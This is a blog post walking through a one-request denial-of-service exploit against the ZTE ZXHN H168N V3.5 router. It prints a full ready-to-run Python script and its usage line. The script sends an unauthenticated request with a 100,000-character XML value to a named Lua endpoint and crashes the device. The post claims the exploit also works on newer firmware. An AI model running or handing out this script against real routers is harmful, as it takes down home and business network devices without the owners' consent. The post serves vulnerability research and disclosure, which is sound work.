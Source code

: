 ```yaml
---
title: "Exploit Writing (KILLx108): Kill ZTE Router "
classes: wide
header:
  teaser: /assets/images/clchdo96yeclu0jp8gj7mf54a.png
ribbon: gray
description: "Exploit for unknown vulnerability in `ZXHN H168N V3.5` to kill the device with one request."
categories:
  - IoT Exploitation
tags:
  - IoT Exploitation
toc: true
---
```


# Introduction
After we had a lot  of information and understand where is the bug in the previous research (You can read it from [here](https://zeyadazima.com/iot%20exploitation/killzte/)). Now, It's time to exploit it and create an exploit.

# The Exploit
It's time to explain how to exploit it. So, previously it seems to be parsing the `XML` request we send and exposing information about `Objects/Parameters` and their values. and whatever `XML`  request we send it's back with the same information. But, even tho we can not access these information if we are not authenticated. But, It's still parsing our request if we are not authenticated. So, Let's try our large value again here. And if we did that we will triage a crash in the router.

- First we imported the needed libraries we going to use
```
import random
import string
import sys
import urllib3
import requests
```

- `requests`: to send our request exploit to the target.
- `urllib3`: I used it here to diable the warings.
- `sys`: to take arguments from the user through the command line.
- `string`: to use it for the random library in generating the payload.
- `random`: to create a payload with random strings from the `strings` library.
<br>
- Second part a function taking 2 arguments
```
def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
```

Basically, This function will take 2 arguments which is `protocol`, ethier is `http` or `https` and the `target` you want to exploit it. Then, it will check if the target alive and responded or no. After that in the following lines:
```
create = string.ascii_uppercase
payload = ''.join(random.choice(create) for i in range(100000))
```
it will create a random `100000` length of strings to send it with the request and crash the device.

- Full code:
```
```
import random
import string
import sys
import urllib3
import requests


urllib3.disable_warnings()


def attack(target, porot):

    url = f"{porot}://{target}/common_page/Localnet_WlanBasicAd_WLANSSIDConf_EncryOption_lua.lua"
    try:
        print("[+] Check if the target is alive")
        check = requests.get(url, timeout=10, verify=False)
        if check.status_code == 200 or 301 or 302 or 303:
            print("[+] Target is alive")
            print("[+] Sending your request...")
            create = string.ascii_uppercase
            payload = ''.join(random.choice(create) for i in range(100000))
            cookies = {"_TESTCOOKIESUPPORT": "1"}
            Headers = {"Connection": "close",
                       "sec-ch-ua": "\"Google Chrome\";v=\"87\", \" Not;A Brand\";v=\"99\", \"Chromium\";v=\"87\"",
                       "Accept": "application/xml, text/xml, */*; q=0.01", "X-Requested-With": "XMLHttpRequest",
                       "sec-ch-ua-mobile": "?0",
                       "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36",
                       "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                       "Origin": "https://192.168.1.1", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors",
                       "Sec-Fetch-Dest": "empty", "Referer": "https://"+target+"/", "Accept-Encoding": "gzip, deflate",
                       "Accept-Language": "en-US,en;q=0.9"}
            Data = f"<ajax_response_xml_root><INSTIDENTITY>{payload}</INSTIDENTITY></ajax_response_xml_root>"
            try:
                att = requests.post(url, headers=Headers, cookies=cookies, data=Data, verify=False, timeout=5)
                print("[-] Target is not Vulnerable")
                sys.exit()
            except requests.exceptions.Timeout:
                print("[+] Target vulnerable and dead now")

            print("[+] Exploit by: Zeyad Azima")

        else:
            print("[-] Your Target is not Alive")
    except Exception as error:
        print("[-]", error)

```
```
try:
    if sys.argv[2] == "http" or "https":
        attack(sys.argv[1], sys.argv[2])
    else:
        print("[-] Please enter a valid protocol (http or https)")

except IndexError:
    print("[-] Please Set your target \n ex: exploit.py target protocol")
```

- Usage
```
python3 exploit.py IP http/s
```

![7af704b3c8e1921061c437d260c30ccf.png](/assets/images/7af704b3c8e1921061c437d260c30ccf.png)

# Conclusion
At the end, it was a simple bug, But it's lead to take the device down. The exploit works with the other new and updated versions. You can see the full code here on github.

By: [Zeyad Azima](https://www.linkedin.com/in/zer0verflow/)  
Source: Vsociety


